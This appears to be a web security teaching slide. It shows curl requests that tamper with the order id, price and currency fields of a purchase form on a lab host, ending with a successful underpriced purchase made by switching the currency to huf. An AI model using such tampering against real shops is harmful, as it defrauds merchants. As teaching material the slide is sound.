

# Hacking
What happens when we manipulate the values?
What could oid stand for?
curl -b PHPSESSID=n7591kbbse8rug4dfn019skv05 -F oid=1 -F price=2500 -F cur=usd http://192.168.84.167/code/purchase.php
FAIL, not your order!
What does price stand for?
curl -b PHPSESSID=n7591kbbse8rug4dfn019skv05 -F oid=5929 -F price=1 -F cur=usd http://192.168.84.167/code/purchase.php
FAIL, not the correct price!
What does cur stand for?
curl -b PHPSESSID=n7591kbbse8rug4dfn019skv05 -F oid=5929 -F price=2500 -F cur=huf http://192.168.84.167/code/purchase.php
Purchase successful, your final order total is 2,500 huf charged to your CC XXXXXXXXXXXX1408